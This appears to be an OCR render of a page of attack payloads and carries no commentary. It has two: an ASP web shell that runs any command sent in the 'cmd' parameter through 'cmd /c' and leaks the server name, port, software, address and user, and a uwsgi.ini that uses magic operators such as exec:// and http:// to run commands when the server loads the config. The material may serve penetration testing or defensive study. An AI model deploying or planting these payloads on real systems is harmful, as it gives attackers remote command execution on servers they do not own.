 ```xml

<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>



<%Response.write("<!-"&"-") %>
-->
```

uwsgi.ini(uWSGI server)

```shell
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; call a function returning a char *
characters = @(call://uwsgi_func)
```

